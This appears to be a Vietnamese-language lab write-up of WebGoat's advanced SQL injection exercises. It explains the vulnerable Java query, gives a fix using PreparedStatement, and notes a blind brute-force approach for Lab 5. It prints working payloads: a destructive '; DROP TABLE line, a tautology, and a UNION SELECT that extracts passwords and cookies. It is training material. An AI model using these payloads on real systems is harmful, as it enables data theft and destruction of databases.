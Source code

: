 ```sql
Action contains: '; DROP TABLE access_log -- 
```

# SQL Injection **(advanced)**

## Lab 3

### Nguyên nhân lỗi

- Sử dụng untrust data nhập từ người dùng `accountName` để chèn chuỗi trực tiếp vào câu truy vấn SQL.

```java
public AttackResult injectableQuery(String accountName) {
    String query = "";
    try (Connection connection = dataSource.getConnection()) {
      boolean usedUnion = true;
      query = "SELECT * FROM user_data WHERE last_name = '" + accountName + "'";
```

### POC

- Đầu tiên sử dụng payload `' or '1'='1` để xem toàn bộ dữ liệu trong bảng `user_data`
- Sử dụng UNION để có thể xem được dữ liệu từ bảng user_system_data

```sql
' UNION SELECT userid as user_system_id, user_name, password, cookie, 'a','b',1 FROM user_system_data -- 
```

- Password của Dave là `passW0rD`

![img](/img/WebGoat/(A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image.png)

### Cách khắc phục

- Sử dụng PreparedStatement

## Lab 5

### Nguyên nhân lỗi

- Chèn trực tiếp giá trị vào câu query dẫn đến bị tấn công SQL Injection

![img](/img/WebGoat/(A3)%20Injection%2062a301a7fd4143a4ad699d1a864c382e/image%201.png)

### POC

- Từ lỗ hổng SQL Injection này, có thể bruteforce để tìm ra từng ký tự trong mật khẩu của người dùng Tom
